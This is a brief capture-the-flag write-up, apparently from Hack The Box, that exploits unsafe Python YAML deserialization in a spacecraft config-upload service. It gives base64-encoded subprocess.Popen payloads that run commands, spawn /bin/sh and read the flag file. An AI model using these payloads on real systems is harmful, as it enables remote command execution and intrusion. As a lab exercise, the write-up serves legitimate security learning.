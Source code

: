 # hijack

**SOLVED**

> The security of the alien spacecrafts did not prove very robust, and you have gained access to an interface allowing you to upload a new configuration to their ship's Thermal Control System. 
> Can you take advantage of the situation without raising any suspicion?

`nc 209.97.134.50 31978`

```txt
ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICcxMDAnLCBhdXRvX2NhbGlicmF0aW9uOiAnT04nLAogIHByb3B1bHNpb25fdGVtcDogJzEwMCcsIHNvbGFyX2FycmF5X3RlbXA6ICcxMDAnLCB1bml0czogQ30K

!!python/object:__main__.Config {IR_spectrometer_temp: '100', auto_calibration: 'ON',
  propulsion_temp: '100', solar_array_temp: '100', units: C}


!!python/object:__main__.Config {}
```

- https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization
- https://hackmd.io/@defund/HJZajCVlP

generated payload in `flag.py`, then base64 in cyberchef

```txt

!!python/object/apply:subprocess.Popen
- ls

ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSBscw==

!!python/object/apply:subprocess.Popen
- cat
- flag.txt

ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSBjYXQKLSBmbGFnLnR4dA==

didnt work...

!!python/object/apply:subprocess.Popen
- /bin/sh
ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSAvYmluL3No
```

popped shell - `cat flag.txt`

`HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}`
